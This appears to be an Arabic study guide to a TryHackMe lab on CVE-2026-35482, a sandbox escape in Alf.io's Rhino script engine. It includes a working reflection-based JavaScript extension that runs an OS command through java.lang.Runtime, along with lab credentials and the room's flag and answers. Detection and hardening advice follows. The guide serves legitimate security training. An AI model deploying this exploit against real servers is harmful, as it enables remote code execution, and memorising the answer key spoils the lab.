

# NoScope: Finding RCE · الدليل التقني والتوثيق الشامل للغرفة

---

## 1. الترويسة والبيانات الوصفية (Metadata & Room Header)

- **اسم الغرفة بالإنجليزية:** NoScope: Finding RCE
- **الاسم بالعربية:** نو سكوب: استكشاف ثغرات تنفيذ الأوامر عن بعد (RCE)
- **المعرف البرمجي (Slug):** `noscoperce`
- **المسار التعليمي:** Junior Penetration Tester (الوحدة 09: معرفة الثغرات الأمنية - Vulnerability Knowledge)
- **الترتيب داخل الوحدة:** الغرفة 04 من أصل 09
- **مستوى الصعوبة:** متوسط (Medium)
- **نوع التقييم:** عملي وواقعي (Hands-on Walkthrough & CVE Analysis)
- **الوسوم (Tags):** `CVE-2026-35482`, `RCE`, `Java`, `Mozilla Rhino`, `Reflection`, `Sandbox Escape`, `Autonomous Pentesting`, `Alf.io`

---

## 2. نظرة عامة وملخص تنفيذي (Room Overview & Executive Summary)

تركز هذه الغرفة على دراسة حالة واقعية وعملية لكيفية اكتشاف منصات اختبار الاختراق الذكية والمؤتمتة (Autonomous AI Pentesting) للثغرات الصفرية والحرجة دون الحاجة للوصول إلى الشيفرة المصدرية (Black-box Assessment). يتمثل سيناريو الغرفة في تحليل الثغرة **CVE-2026-35482** الخاصة بنظام إدارة الفعاليات الشهير **Alf.io** المبني بلغة Java وإطار Spring Boot. تكشف الغرفة كيف يؤدي الاعتماد الساذج على القوائم السوداء للكلمات المحجوزة (Keyword Blacklists) داخل محركات تشغيل الجافاسكربت المضمنة (Mozilla Rhino) إلى انهيار تام لبيئة العزل (Sandbox Escape) بمجرد تسريب كائن انعكاس بسيط (`returnClass`)، مما يمكن المهاجم من تنفيذ أوامر عشوائية على نظام التشغيل الأساسي فور وقوع حدث معين داخل المنصة (`EVENT_STATUS_CHANGE`).

---

## 3. الهيكلية وتحليل سطح الهجوم (Architecture & Attack Surface Analysis)



---

## 4. الأهداف التعليمية ومصفوفة المهارات (Pedagogical Objectives & Skills Matrix)

| المهارة المستهدفة | الوصف التقني للقدرة المكتسبة | معيار التحقق والتقييم |
| :--- | :--- | :--- |
| **فهم محركات السكربتات المضمنة** | استكشاف آليات تضمين مفسرات الجافاسكربت (Rhino) داخل تطبيقات جافا. | التعرف على المحرك `Mozilla Rhino`. |
| **تحليل فشل القوائم السوداء** | إدراك أوجه القصور الهيكلية في حظر الكلمات النصية (String Filtering) أمام لغات تدعم الانعكاس. | تحليل آلية عمل دالة `forName()`. |
| **استغلال الانعكاس البرمجي (Reflection)** | توظيف كائنات `java.lang.Class` لاستدعاء وتوليد فئات النظام المحظورة ديناميكياً. | بناء سلسلة الاستغلال لـ `Runtime.getRuntime().exec()`. |
| **استيعاب التنفيذ المبني على الأحداث** | ربط تنفيذ الشيفرات بخطافات دورة حياة التطبيق (Lifecycle Hooks). | تحديد الحدث المحفز `EVENT_STATUS_CHANGE`. |
| **التقييم الأمني المؤتمت بالذكاء الاصطناعي** | فهم منهجية المنصات المستقلة (NoScope) في صيد وتأكيد ثغرات RCE. | استخراج الراية التوثيقية `THM-{ALF_CV3_PWN}`. |

---

## 5. الجدول التفصيلي لمهام الغرفة (Comprehensive Task Breakdown)

| رقم المهمة | اسم المهمة الأصلي | العنوان بالعربية | السؤال الأساسي | القيمة المعتمدة |
| :---: | :--- | :--- | :--- | :---: |
| **Task 01** | Introduction | مقدمة: تحليل الهروب من بيئة العزل | I am ready to start! | `No answer needed` |
| **Task 02** | Vulnerability Hunting with NoScope | صيد الثغرات واكتشاف محرك العزل | What sandboxing engine did NoScope identify? | `Mozilla Rhino` |
| **Task 02** | Vulnerability Hunting with NoScope | صيد الثغرات واكتشاف محرك العزل | What was the flag value NoScope retrieved? | `THM-{ALF_CV3_PWN}` |
| **Task 03** | Weaponizing the CVE | تسليح الثغرة وتجاوز بيئة العزل | On what event is the exploit payload triggered? | `EVENT_STATUS_CHANGE` |
| **Task 04** | Conclusion | الخاتمة والدروس المستفادة | Done! | `No answer needed` |

---

## 6. المنهجية واستراتيجية الاستطلاع (Methodology & Reconnaissance Strategy)

تعتمد المنهجية في هذه الغرفة على مسار الفحص المتقدم للثغرات البرمجية في بيئات التشغيل المعزولة:
1. **استطلاع الواجهات الإدارية:** فحص لوحة التحكم لتحديد واجهات إدخال الشيفرات الديناميكية (Plugin/Extension Engines).
2. **بصمة محرك التشغيل (Engine Fingerprinting):** استنباط المحرك الداخلي (Mozilla Rhino) من خلال رسائل الأخطاء الاستثنائية (Stack Traces).
3. **فحص حدود بيئة العزل (Sandbox Boundary Audit):** استكشاف المتغيرات المتاحة في النطاق العام (Global Scope) والبحث عن كائنات جافا الخام.
4. **بناء جسر الانعكاس (Reflection Bridge):** تجاوز قائمة الحظر النصية بتمرير اسم الفئة المستهدفة كنص ديناميكي للدالة `Class.forName()`.
5. **الربط بالحدث التشغيلي:** اختيار الحدث الإداري الذي يضمن تفعيل السكربت فورياً دون تعطيل الخدمة.

---

## 7. الشرح العملي المتعمق لكل محور (Deep-Dive Practical Walkthrough)

### أ. بصمة محرك العزل واستخراج الراية
أثناء الفحص المؤتمت بواسطة NoScope، أظهرت مخرجات النظام:
```text
Engine: Mozilla Rhino (JavaScript interpreter for Java)
Vulnerability: CVE-2026-35482
Retrieved Flag: THM-{ALF_CV3_PWN}
```

### ب. تكوين ملحق الاستغلال داخل Alf.io
1. الدخول للوحة التحكم: `http://MACHINE_IP/admin` (بيانات الدخول: `admin` / `Password1!`).
2. الانتقال إلى قسم **Extensions** والنقر على **Add New Extension**.
3. كتابة السكربت المحتوي على تجاوز الانعكاس:
```javascript
function getScriptMetadata() {
    return {
        id: 'rce-audit',
        displayName: 'RCE Audit',
        version: 0,
        async: false,
        events: ['EVENT_STATUS_CHANGE']
    };
}

function executeScript(scriptEvent) {
    var rtClass = returnClass.forName('java.lang.Runtime');
    var strClass = returnClass.forName('java.lang.String');
    var runtime = rtClass.getMethod('getRuntime').invoke(null);
    var proc = rtClass.getMethod('exec', strClass).invoke(runtime, 'whoami');
    var bytes = proc.getInputStream().readAllBytes();
    var output = '';
    for (var i = 0; i < bytes.length; i++) {
        output += String.fromCharCode(bytes[i] & 0xFF);
    }
    return { status: output.trim() };
}
```

### ج. إطلاق السكربت عبر الأحداث
- الانتقال لقسم **Events**.
- اختيار الفعالية المسجلة وتغيير حالتها من مسودة (Draft) إلى منشورة (Published).
- هذا الإجراء يطلق الحدث `EVENT_STATUS_CHANGE`، مما ينفذ السكربت على الفور بصلاحيات المستخدم `alfio`.

---

## 8. تحليل الثغرات وآليات الاستغلال (Vulnerability Analysis & Exploitation Mechanics)

### أ. ثغرة الهروب من بيئة العزل (Sandbox Escape - CVE-2026-35482)
- **السبب الجذري:** قامت المنصة بحظر الكلمات المحجوزة مثل `java.lang.Runtime` في كود الجافاسكربت، ولكنها قامت بحقن المتغير `returnClass` في بيئة التنفيذ، وهو كائن ينحدر من `java.lang.Class`.
- **ميكانيكية الاستغلال:** بما أن الدالة `forName()` تابعة للفئة `Class`، فإن استدعاءها يسمح بتحميل أي فئة موجودة في مسار الـ Classpath الخاص بالتطبيق ديناميكياً، مما يلغي فاعلية الفحص الساكن تماماً.

---

## 9. الكشف وسجلات النظام والأثر الجنائي (Detection, Logging & Forensics)

- **سجلات التطبيق (`catalina.out` / `application.log`):**
  ظهور رسائل تسجيل غير اعتيادية لاستدعاء دوال الانعكاس:
  ```text
  INFO [ExtensionService] Triggering extension 'rce-audit' for event 'EVENT_STATUS_CHANGE'
  WARN [SecurityContext] Reflective access to java.lang.Runtime invoked by script scope
  ```
- **سجلات العمليات في نظام التشغيل (Sysmon / Auditd):**
  رصد عملية فرعية جديدة تنطلق من مسار تشغيل خادم جافا (`java` ينشئ `/bin/sh` أو `whoami` أو `wget`).

---

## 10. التحصين والمعالجة الجذرية (Hardening, Mitigation & Remediation Guide)

1. **إلغاء حقن كائنات الفئات الخام:** استبدال `returnClass` بواجهة مقيدة (Restricted Facade) لا تكشف دوال الانعكاس مثل `forName` أو `getMethod`.
2. **تطبيق ClassShutter في Rhino:** تفعيل قائمة بيضاء صارمة تمنع رؤية الفئات خارج حزم التطبيق:
   ```java
   context.setClassShutter(className -> className.startsWith("io.alf.client.dto."));
   ```
3. **الانتقال إلى محركات العزل الحديثة:** استبدال المحركات المتقادمة بـ GraalVM Polyglot مع ضبط `HostAccess.NONE`.

---

## 11. الدفاع في العمق والبيئات المؤسسية (Defense-in-Depth)

- **تشغيل خوادم جافا بصلاحيات دنيا:** عدم تشغيل خدمات الويب بحساب `root`، واستخدام حساب مخصص معزول (`alfio`).
- **عزل العمليات (Process Sandboxing):** تقييد صلاحيات خادم الويب باستخدام Seccomp و AppArmor لمنع خادم جافا من استدعاء مفسرات الأوامر (`/bin/sh`, `/bin/bash`).
- **عزل الشبكة (Egress Filtering):** منع الخوادم الداخلية من إنشاء اتصالات خارجية بالإنترنت لحرمان المهاجمين من تحميل حمولات استغلال إضافية.

---

## 12. مقارنة الأدوات والأوامر السريعة (Tool Comparison & Quick Reference)

| التقنية / الأداة | الغرض التقني | نموذج الاستخدام |
| :--- | :--- | :--- |
| **NoScope** | فحص ذكي ومستمر لاكتشاف الثغرات | منصة مؤتمتة للصندوق الأسود |
| **Mozilla Rhino** | محرك مفسر للجافاسكربت في جافا | تضمين سكربتات التخصيص |
| **Java Reflection** | فحص واستدعاء الكائنات ديناميكياً | `Class.forName().getMethod().invoke()` |
| **GraalVM** | بيئة عزل حديثة وآمنة متعددة اللغات | بديل حديث لمحركات السكربتات القديمة |

---

## 13. الأخطاء الشائعة وحل المشكلات (Common Pitfalls & Troubleshooting)

1. **الاعتماد على القوائم السوداء (Blacklists):** محاولة حظر نصوص معينة بدلاً من تقييد الوصول للكائنات في الذاكرة تؤدي حتماً إلى الهروب من بيئة العزل.
2. **نسيان شرطة الراية:** الانتباه لصيغة راية الغرفة التي تتضمن شرطة بعد THM: `THM-{ALF_CV3_PWN}` بدلاً من الصيغة المعتادة بدون شرطة.
3. **عدم إطلاق الحدث:** حفظ السكربت في لوحة التحكم لا ينفذه تلقائياً؛ يجب تفعيل الحدث المرتبط به (`EVENT_STATUS_CHANGE`) عبر نشر الفعالية.

---

## 14. المراجع والمعايير الدولية (References & Standards)

- رابط الغرفة الرسمي على منصة TryHackMe: [https://tryhackme.com/room/noscoperce](https://tryhackme.com/room/noscoperce)
- التحليل الفني لثغرة CVE-2026-35482: [NoScope Technical Advisory](https://www.noscope.com/blog/cve-2026-35482-noscope-alf-rce)
- معيار MITRE للحقن البرمجي: [CWE-94 Code Injection](https://cwe.mitre.org/data/definitions/94.html)
- معيار OWASP لحقن الشيفرات: [OWASP A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
